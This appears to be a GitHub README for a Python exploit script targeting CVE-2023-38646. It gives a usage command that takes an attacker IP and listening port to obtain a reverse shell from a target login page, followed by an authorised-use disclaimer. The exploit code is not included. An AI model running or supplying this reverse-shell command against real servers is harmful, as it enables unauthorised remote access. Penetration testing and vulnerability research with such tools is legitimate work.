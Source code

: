 # CVE-2023-38646

This is a script that creates a reverse shell targeting CVE-2023-38646 (CVSS 9.8).

# How to use:
`python3 CVE-2023-38646.py --lhost {KALI IP} --lport {KALI LISTENING PORT} --url http://{DOMAIN_OF_LOGIN_PAGE-NOT_PATH!}`

options:
  -h, --help     show this help message and exit
  --url URL      URL of the login page
  --lhost LHOST  Your attacker machine IP
  --lport LPORT  Your attacker machine listening port

Example:
![Example Screenshot](Example Screenshot.png)

# Disclaimer
* This script is provided for educational and awareness purposes only. It is intended to demonstrate a security vulnerability and should only be used in environments where you have explicit authorization to test for and mitigate such vulnerabilities. Unauthorised use of this script on systems without proper authorization may be illegal and could result in legal consequences. 
The author of this script are not responsible for any misuse or damage caused by the execution of this code. Use at your own risk.
By using this script, you agree that you have read and understood this disclaimer and assume full responsibility for any actions taken.
